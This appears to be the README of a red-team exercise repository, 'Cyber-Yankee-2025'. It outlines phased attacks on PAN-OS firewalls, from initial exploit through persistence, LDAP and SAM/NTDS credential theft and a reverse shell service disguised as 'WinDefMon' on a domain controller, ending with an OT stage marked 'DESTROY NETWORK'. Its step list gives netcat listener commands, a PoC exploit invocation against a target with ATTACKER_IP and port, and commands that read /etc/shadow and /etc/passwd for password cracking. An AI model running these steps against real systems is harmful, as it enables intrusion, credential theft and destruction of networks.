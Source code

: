 # Cyber-Yankee-2025

## Sassy Panda

[Phase01](Phase01) - #PanOS Exploit

[Phase02](Phase02) - #PanOS Internal Reconnaissance & Enumeration

[Phase03](Phase03) - #PanOS Persistence

[Phase04](Phase04) - #PanOS proxy chains

---

[Phase05](Phase05) - #Discovery Inside Orange Space

[Phase06](Phase06) - #Credential Access (via LDAP, SAM/NTDS)

---

[Phase07](Phase07) - Lateral Movement and Persistence *DAY 3*

[Phase08](Phase08) - `WinDefMon` Reverse Shell Service on DC

[Phase09](Phase09) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK

[Phase20](Phase20) - Clean the environment

## Steps

1. initial access - setup initial listener (netcat/metasploit) with your 61574
    run command: `nc -lvnp 61574`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform
    run command:
    `whoami` # detect who we are
    `cat /etc/shadow` # grab the users on the machine
    `cat /etc/passwd` # grab what shell permissions every user has
    `uname -a` # detect what machine we are running
5.  Add passwords to rockyou.txt
